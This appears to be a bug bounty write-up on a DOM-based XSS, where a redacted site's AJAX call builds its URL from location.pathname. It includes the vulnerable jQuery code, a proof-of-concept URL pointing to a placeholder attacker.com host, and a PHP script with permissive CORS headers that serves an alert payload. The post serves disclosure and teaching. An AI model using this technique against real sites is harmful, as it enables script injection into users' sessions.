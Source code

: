 I was working on a private program which i cannot disclose

I checked the js file by the way when I checked the request. Found a suspicious piece of code

**www.xxxxx.com**   domain 

**/xxxxxxxxx/**    path

[https://www.xxxxx.com/xxxxxxxxx/pdp.min.js]

Vuln code

![Image failed to load

e](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t33.png)

ajax Get request response write to page

![Image failed to load
e](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t44.png)

Normal request looks like this

Visit this site

https://www.xxxxx.com/xxxxxxxxx

ajax will make such a request

https://www.xxxxx.com/xxxxxxxxx/showProductRedemption?productCode=263625


      var url = prefix + "/showProductRedemption?productCode=" + vpCode;
                $.ajax({
                    url: url,
                    type: "GET",
                    dataType: "html",
                    success: function(res) {
                        PDP.AjaxResponse.showProductRedemption(res);
                    },
                    error: function(res) {
                        console.error(res);
                    }
                });


But ***location.pathname*** attackers can control

So when location.pathname is set to //attacker.com

The browser will go to attacker.com

This will visit the attacker's website to get their website content

**POC**

https://www.xxxxx.com//attacker.com/xxxxxxxxx

location.pathname is //attacker.com/xxxxxxxxx

ajax will request https://attacker.com/xxxxxxxxx for the response content

Attackers just need to set up their own website content

After Ajax gets the response from the attacker's website, it will write xsspayload to the page

An example with php

    <?php
    header("Access-Control-Allow-Origin: *");
    header("Access-Control-Allow-Credentials: true");
    header("Access-Control-Request-Methods:GET, POST, PUT, DELETE, OPTIONS");
    
    echo '<script>alert(1);</script>';
    ?>



So when the user visits https://www.xxxxx.com//attacker.com/xxxxxxxxx

Will trigger this dom xss![Image failed to load
e](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t31.png)


Finally

![Image failed to load
e](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t20.png)

Thanks!

